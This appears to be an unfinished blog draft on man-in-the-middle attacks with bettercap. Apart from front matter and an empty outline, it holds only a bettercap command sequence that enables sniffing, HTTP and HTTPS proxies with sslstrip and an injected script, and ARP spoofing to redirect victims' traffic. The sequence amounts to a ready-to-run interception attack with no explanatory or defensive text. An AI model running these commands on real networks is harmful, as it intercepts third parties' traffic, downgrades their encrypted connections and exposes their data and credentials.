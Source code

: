 ```yaml
---
title: "Mitm Ala Bettercap"
date: 2018-03-26T01:53:42+08:00
tags: ["networking"]
draft: true
---
```


`TODO: write content` 

set net.sniff.verbose false
net.sniff on

# http proxy
set http.proxy.script caplets/proxy-script-test.js
set http.proxy.sslstrip true
set http.proxy.port 80
http.proxy on

# https proxy
set https.proxy.script caplets/proxy-script-test.js
set https.proxy.sslstrip true
set https.proxy.port 443
https.proxy on

# redirect connections to our machine
arp.spoof on

<p class="text-center">***</p>

*Outline:*

1. 